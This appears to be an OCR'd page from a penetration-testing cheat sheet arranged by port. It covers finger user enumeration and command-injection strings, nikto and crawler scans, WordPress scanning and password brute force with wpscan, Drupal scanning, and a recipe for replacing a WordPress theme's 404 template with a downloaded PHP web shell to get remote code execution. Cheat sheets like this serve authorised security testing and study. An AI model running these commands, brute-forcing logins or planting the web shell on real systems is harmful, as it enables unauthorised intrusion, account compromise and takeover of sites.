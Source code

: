 ------

## FINGER - 79

### User enumeration

```
finger @<IP>
finger <USER>@<IP>
```

### Command execution

```
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```

------

## HTTP - HTTPS - 80 - 443

### Automatic scanners

```
nikto -h <URL>
python crawleet.py -u <URL> -b -d 3 -e jpg,png,css -f -m -s -x php,txt -y --threads 20
```

### Wordpress

```
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

#### Wordpress panel RCE

```
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```

### Drupal

```
droopescan scan -u <URL>
```
